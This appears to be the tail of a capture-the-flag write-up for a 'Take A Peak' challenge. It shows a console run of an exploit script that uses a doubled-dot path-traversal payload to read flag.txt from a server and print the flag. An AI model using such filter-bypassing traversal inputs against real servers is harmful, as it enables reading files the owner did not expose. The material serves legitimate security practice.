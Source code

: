 
Result:

```console
$ ./exploit.sh contents "....//....//....//....//....//flag.txt"
../../../../../flag.txt
{"app":"server-code","data":"flag{b96caf012c197fae8252c14658406390}"} 
```

The flag is accepted as the last Take A Peak challenge

